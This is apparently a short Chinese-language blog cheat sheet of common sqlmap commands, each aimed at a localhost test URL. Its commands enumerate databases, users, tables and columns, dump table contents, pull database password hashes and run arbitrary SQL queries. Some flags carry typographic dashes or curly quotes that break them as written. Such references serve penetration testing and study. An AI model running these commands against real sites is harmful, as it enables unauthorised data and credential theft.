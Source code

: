 ```yaml
---
title: "sqlmap常用命令"
date: 2020-02-06
categories: ["other"]
tags: ["sqlmap"]
draft: false 
---
```

## 基本信息
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 5（5代表level,0-5）
```
## 所有dbs
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 5 --dbs
```
## 所有用户
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 5 —users
```
## 当前使用的db
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 5 --current-db
```
## 当前用户
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 5 --current-user
```
## 某个库所有表名
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 1 -D test —tables
```
## 某个表所有列名
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 0 -D test -T deskstatus —columns
```
## 某个表所有数据
```bash
sqlmap -u "http://localhost/test.php?id=11" -v 0 -D test -T deskstatus —dump
```
## 获取密码
```bash
sqlmap -u "http://localhost/test.php?id=11" --passwords
```
## 获取指定用户密码
```bash
sqlmap -u "http://localhost/test.php?id=11" --password -U root
```
## 获取指定列
```bash
sqlmap -u "http://localhost/test.php?id=11" -D test -T deskstatus -C field1 —dump
```
## sql查询

```bash
sqlmap -u "http://localhost/test.php?id=11" --sql-query "select * from mysql.user”
```
## 是否DBA
```bash
sqlmap -u "http://localhost/test.php?id=11" --is-dba
```
## sql版本
```bash
sqlmap -u "http://localhost/test.php?id=11" -b
```
## 输出到文件
```bash
sqlmap -u="http://localhost/test.php?id=11" -o "d:/log.txt”
```
## post请求
```bash
sqlmap -u "http://localhost/test.php?id=11" --data="cid=xxxxx;uid=xxxx;time=xxxxx;sign=xxxx%3D" --param-del=";"  —dbs
```